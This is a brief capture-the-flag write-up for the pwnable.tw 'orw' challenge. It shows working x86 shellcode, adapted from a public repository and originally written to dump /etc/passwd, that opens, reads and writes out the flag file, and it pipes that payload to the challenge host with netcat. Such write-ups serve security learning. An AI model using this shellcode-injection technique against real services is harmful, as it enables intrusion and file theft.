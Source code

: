 # [100 points] orw

_Read the flag from `/home/orw/flag`._

_Only open read write syscall are allowed to use._

---------------------------------------------------------------

Quick writeup, as this was a very easy exercise.

I downloaded the binary, opened it in ghidra, and realised this was a super straight-forward shellcode injection.

So I headed straight to [shell-storm.org/shellcode](http://shell-storm.org/shellcode/) and got one that did just this. The one I found dumped
`/etc/passwd`, but that sufficed for a POC ([link](http://shell-storm.org/shellcode/files/shellcode-842.php)). After that, I disassembled the shellcode,
replaced the path to mimic the path to the flag, printed it using python, and piped it into netcat.

```python
from binascii import unhexlify

shellcode = unhexlify("31C9F7E1B0055168666C6167686F72772F686F6D652F682F2F2F6889E3CD809391B00331D266BAFF0F42CD809231C0B004B301CD8093CD80")

print shellcode
```

```bash
python ./solve.py | nc chall.pwnable.tw 10001
```

Flag acquired! :)
